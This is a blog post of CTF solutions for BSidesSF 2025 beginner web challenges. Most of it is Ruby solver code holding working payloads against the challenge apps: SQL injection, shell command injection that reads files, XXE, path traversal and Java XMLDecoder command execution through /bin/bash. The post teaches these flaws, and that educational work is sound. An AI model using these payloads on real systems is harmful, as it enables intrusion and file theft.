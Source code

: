 ```yaml
---
title: 'BSidesSF 2025: 101 Challenges'
author: ron
layout: post
categories:
- bsidessf-2025
- ctfs
permalink: "/2025/bsidessf-2025-101-challenges"
date: '2025-04-27T15:59:15-07:00'
comments_id: '114456978710849514'

---
```


I wrote a wholllle pile of 101 web challenges this year, which are ultimately going to be adapted for a workshop I'm giving at NorthSec in Montreal next month.

I'm not going to spend a ton of time on them, I'll just give the solutions quickly.

As usual, you can find the code and complete solutions on our [GitHub repo](https://github.com/BSidesSF/ctf-2025-release)!

And, if these are particularly interesting to you, come see me in Montreal!

<!--more-->

## `hidden-reports` (sqli login)

Hidden-reports is classic SQL injection in a login form `' or '1'='1`:

```ruby
result = HTTParty.post(get_url(), body: { 'passphrase' => "test' or '1'='1" })
```

## `detector` (shell injection)

`detector` is shell command injection:

```ruby
result = HTTParty.get("#{ get_url() }/detect-dragon.php?ip=1.2.3.4; cat /app/dragon-detector-ai;")
```

## `detector-2` (shell injection)

`detector-2` is a slightly different flavour of shell command injection:

```ruby
result = HTTParty.get("#{ get_url() }/detect-dragon.php?ip=1.2.3.4$(cat /app/dragon-detector-ai)")
```

## `evidence` (XXE)

`evidence` is XML eXternal Entities - XXE:

```ruby
XXE = <<~XXE
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///flag.txt">
  ]>
  <dragons>
    <dragon>
      <name>Smaug</name>
      <proof>&xxe;</proof>
    </dragon>
  </dragons>
XXE

EXPLOIT_FILE = File.join(__dir__, 'payload.xml')
File.write(EXPLOIT_FILE, XXE)
result = HTTParty.post(
  get_url(),
  body: {
    dragon_file: File.open(EXPLOIT_FILE, 'r')
  },
  headers: {
    'Content-Type' => 'multipart/form-data'
  }
)
```

## `pathing` (path traversal)

`pathing` is directory traversal in the URL (if you're using `curl`, you'll need `--path-as-is`, and other tools and browsers get confused):

```ruby
PATH = "#{get_url()}/../../../../../../flag.txt"
puts "Requesting #{ PATH }..."
out = ::HTTParty.get(PATH)
```

## `sighting` (path traversal)

`sighting` is another flavour of directory traversal, this time in an argument:

```ruby
PATH = "#{get_url()}picture.php?file=../../../../../../flag.txt"
puts "Requesting #{ PATH }..."
out = ::HTTParty.get(PATH)
```

## `taxonomy` (search SQLi)

`taxonomy` is classic SQL injection in a `WHERE` string - essentially `' or 1=1)--`:

```ruby
result = HTTParty.get("#{ get_url() }/?search=Nano%27%20OR%201=1)%20--")
```

## `dating` (XMLDecoder)

`dating` is insecure `XMLDecoder` usage - you can basically copy/paste reverse shell code.

My solution is a bit complicated because I want to be able to do it without a reverse shell:

```ruby
TEMP = UUID.generate.to_s
COPY = <<~COPY
  <?xml version="1.0" encoding="UTF-8"?>
  <java version="1.8.0_102" class="java.beans.XMLDecoder">
   <object class="java.lang.Runtime" method="getRuntime">
        <void method="exec">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>cp /flag.txt /usr/local/tomcat/webapps/ROOT/#{ TEMP }.txt</string>
            </void>
        </array>
        </void>
   </object>
  </java>
COPY
DELETE = <<~DELETE
  <?xml version="1.0" encoding="UTF-8"?>
  <java version="1.8.0_102" class="java.beans.XMLDecoder">
   <object class="java.lang.Runtime" method="getRuntime">
        <void method="exec">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>rm -f /usr/local/tomcat/webapps/ROOT/#{ TEMP }.txt</string>
            </void>
        </array>
        </void>
   </object>
  </java>
DELETE
# Move the file
HTTParty.post("#{ get_url() }/ProfileServlet", body: COPY)
# Get the file
result = HTTParty.get("#{ get_url() }/#{ TEMP }.txt")
# Delete the file
HTTParty.post("#{ get_url() }/ProfileServlet", body: DELETE)
```

## `hoard` (shell injection)

`hoard` is another shell command injection issue, this time in a JSON payload:

```ruby
BODY = {
  'hoardType' => 'artifact',
  'gold' => '123',
  'gems' => '123',
  'artifacts' => "123';cat /flag.txt;echo '",
}.to_json
result = HTTParty.post("#{ get_url() }/backend.php", body: BODY)
```

## `extinction` (ambiguous base64)

And finally, `extinction` is a challenge based on ambiguous base64 - depending on the length of the string, the last bit or two can be changed without changing the value it decodes to (this is based on my poor attempt to write Suricata rules at work):

```ruby
result = HTTParty.post("#{ get_url() }/index.php?encoded_creds=#{ Base64.strict_encode64('admin:admin') }")
if result.include?('CTF') || !result.include?('AHA')
  puts "Something went wrong: the 'bad' request wasn't correctly handled!"
  exit(1)
end
result = HTTParty.post("#{ get_url() }/index.php?encoded_creds=YWRtaW46YWRtaW5=")
```
